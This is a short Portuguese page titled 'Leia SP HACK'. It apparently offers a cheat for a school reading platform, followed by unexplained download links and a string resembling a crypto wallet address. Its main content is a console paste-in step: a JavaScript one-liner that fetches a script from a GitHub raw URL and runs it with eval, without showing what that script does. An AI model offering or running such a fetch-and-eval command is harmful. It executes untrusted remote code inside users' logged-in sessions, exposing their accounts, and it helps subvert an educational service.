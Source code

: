 # Leia SP HACK

Copie e cole no CONSOLE dentro do livro!
```js
javascript:fetch("https://raw.githubusercontent.com/KeyzerCR/leiasp/refs/heads/main/leiasp.js").then(t=>t.text()).then(eval);
```


https://getmocha.com/?o_id=0198a59a-c31c-72fe-9eac-af36e21d5dee
https://limewire.com/d/X1u6V#A19FLJYubz
42X98aXKvRm1H5CuJFMJP4XNvXPMLephkdF6yebtkJdja1UfnUKz2eaMqpNG2j81p9cVHubpQNuxHXSiFTPL85Jp8ByFcAY
